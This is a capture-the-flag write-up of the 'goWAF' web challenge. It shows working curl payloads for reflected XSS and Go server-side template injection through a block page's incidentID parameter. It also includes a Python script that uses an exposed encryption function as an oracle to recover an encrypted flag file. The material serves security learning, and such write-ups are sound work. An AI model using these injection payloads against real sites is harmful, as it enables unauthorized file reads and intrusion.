

# goWAF
* Category: Web
* 300 Points
* Solved by the JCTF Team

## Description
> I got hacked last week so I added a WAF to protect my site,
>
> Now I'm protected!


## Solution

We visit the attached website and get a login page.

Scanning through the sources, we see the following comment:

```html
    <!-- Generated by GoDoc https://127.0.0.1/docs -->
```

Let's try to visit `/docs`:



We get a documentation server with some strange functions.

We've waited enough, it's time to try and login. If we enter a blacklisted character as the username or password, we get blocked by the WAF:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl 'https://gowaf.appsecil.ctf.today/login'  --data-raw $'{"username":"\'","password":"123456"}'
{"isSuccess": false, "redirect": "/blocked?incidentID=%23089666"}
```

Following the redirect, we arrive to the WAF notice:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
<head>
    <title>WAF 403 Forbidden</title>
    <style>body{font-family:sans-serif;font-size:13px;color:#000;}</style>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
</head>
<body bgcolor="white">
<br /><br /><br /><br />
    <center>Sorry <b>10.42.131.137</b>, your request cannot be processed.<br />
        For security reasons, it was blocked and logged.<br /><br />
        <!-- Unimportant Base64 encoded image, stripped for clarity -->
        <br /><br />
        If you believe this was an error please contact the<br />
        webmaster and enclose the following incident ID:<br /><br />[ <b>#089666</b> ]
    </center>
</body>
</html>
```

The first thing that we notice is that the `incidentID` parameter is included as-is in the webpage, allowing an easy XSS attack:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s "https://gowaf.appsecil.ctf.today/blocked?incidentID=<script>alert(1)</script>" | grep alert
        webmaster and enclose the following incident ID:<br /><br />[ <b><script>alert(1)</script></b> ]
```


However, we don't have anyone to send this URL to. 

The clue comes from the `/docs` page: Notice how the title of the page is `{{goWAF}}`. In Golang, this syntax is used for [templates](https://golang.org/pkg/text/template/). 

This means that we can send something like `{{action}}` and the action will be executed on the server-side, and returned to us as output.

For example:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{print "Test"}}' | grep Test
        webmaster and enclose the following incident ID:<br /><br />[ <b>Test</b> ]
```

We can call other functions, such as the ones we met in the `/docs` page:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{ReadFileEncrypted "flag"}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN</b> ]
```

We got the encrypted flag! Let's try to decrypt it:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Decrypt (ReadFileEncrypted "flag")}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>Only admins can use the decryption function</b> ]
```

No luck. Can we encrypt?

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "Test"}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>FRUDJw==</b> ]
```

So this is (probably) somehow encoded in some base. We'll start by assuming that this is base64, and reconsider if needed. 

Now, let's try to encrypt our way to the expected output.

For the first character, we'll try to encrypt every possible printable ASCII letter until we arrive to a result which if decoded as base64, is equal to the base64-decoded first character of the encrypted flag file we got.

Our first character after decoding as base64 is `0`:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# echo AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN | base64 -d | xxd -g 1
00000000: 00 00 00 00 00 00 00 00 00 00 0e 5d 09 5f 24 64  ...........]._$d
00000010: 1f 56 34 3e 55 09 46 4e 33 03 0d                 .V4>U.FN3..
```

Here's what we get if we encrypt 'z':

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "z"}}' | grep -Po '(?<=\[ <b>)([^<]+)(?=</b> \])' | base64 -d | xxd -g 1
00000000: 3b
```

And here's what we get if we encrypt 'A':
```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "A"}}' | grep -Po '(?<=\[ <b>)([^<]+)(?=</b> \])' | base64 -d | xxd -g 1
00000000: 00
```

So 'A' matches our first character of the flag.

We can automate this with a Python script:
```python
import requests
import string
import base64
import re

OUTPUT_REGEX = re.compile(r'\[ <b>([^<]+)</b> \]')
decode_func = base64.b64decode

def get_output(command):
    r = requests.get("https://gowaf.appsecil.ctf.today/blocked", params = {"incidentID": '{{' + command + '}}'})
    match = OUTPUT_REGEX.search(r.text)
    if match:
        return match.group(1)
    raise RuntimeError("Can't find output pattern")

encoded_flag = get_output('ReadFileEncrypted "flag"')
print("Encoded flag: {}".format(encoded_flag))

decoded_flag = decode_func(encoded_flag)

known = ""

print(f"Recovering output: {known}", end='', flush = True)

# Skip '"' and '\' which break the command syntax and are (hopefully) not needed
ALPHABET = set(string.ascii_letters + string.digits + string.punctuation) - set('"\\') 

for i in range(len(known), len(decoded_flag)):
    for c in ALPHABET:
        res = get_output(f'Encrypt "{known + c}"')
        decoded_res = decode_func(res)
        if decoded_res[i] == decoded_flag[i]:
            print(c, end = '', flush = True)
            known += c
            break

print()
```

Output:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# python3 solve.py
Encoded flag: AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN
Recovering output: AppSec-IL{G0G0P0w3rR4ng3rs}
```

The flag is `AppSec-IL{G0G0P0w3rR4ng3rs}`.

Fun fact: If we XOR the flag with the encrypted output, we get the key: `AppSec-IL{ImNotTheFlag!}`.
